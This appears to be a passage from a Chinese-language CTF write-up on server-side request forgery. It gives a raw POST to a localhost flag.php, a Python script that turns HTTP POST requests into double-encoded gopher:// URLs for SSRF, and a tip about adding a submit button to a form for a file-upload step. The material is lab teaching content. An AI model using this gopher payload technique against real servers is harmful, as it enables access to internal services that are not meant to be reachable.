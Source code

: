 ![](https://gitee.com/SSSSSHONE/ss/raw/master/20241030204027.png) 
所以我们使用`gopher`协议,从`127.0.0.1`来访问`/flag.php`,同时带上`key=f1e1ea1e32fc1a35d781ea690302e61d`即可  
```http
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Length: 36
Content-Type: application/x-www-form-urlencoded

key=f1e1ea1e32fc1a35d781ea690302e61d
```
这个脚本用于把POST请求编码为符合Gopher协议的URL格式:  
- 使用时修改`示例使用`部分即可  
```python
import urllib.parse

def encode_post_to_gopher(host, port, path, headers, body):
    """
    将HTTP POST报文转换为Gopher协议的URL格式
    :param host: 目标主机
    :param port: 端口号
    :param path: 请求路径
    :param headers: 请求头部 (字典格式)
    :param body: 请求体 (字符串格式)
    :return: Gopher协议的URL
    """
    # 动态计算请求体的长度，并设置Content-Length头部
    headers['Content-Length'] = str(len(body))
    
    # 构建HTTP报文
    request_line = f"POST {path} HTTP/1.1"
    host_header = f"Host: {host}:{port}"
    
    # 构建完整的HTTP报文
    header_lines = [f"{key}: {value}" for key, value in headers.items()]
    http_request = f"{request_line}\r\n{host_header}\r\n" + "\r\n".join(header_lines) + f"\r\n\r\n{body}"
    
    # 对HTTP请求进行URL编码
    encoded_request = urllib.parse.quote(http_request)
    
    # 构建Gopher URL，使用"_POST"作为Gopher类型，表示执行POST请求
    gopher_url = f"gopher://{host}:{port}/_{encoded_request}"
    
    return gopher_url

# 示例使用
host = "127.0.0.1"
port = 80
path = "/flag.php"
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}
body = "key=51457bb0a50c1eb2c92dcc3ec3c2cc13"

# 生成Gopher URL
gopher_url = encode_post_to_gopher(host, port, path, headers, body)
print(gopher_url.replace('%','%25'))
```
#### 上传文件
先访问`?url=127.0.0.1/flag.php`发现可以选择文件但没有上传按钮  
在from表单添加一行  
```html
<input type="submit" name="submit">
```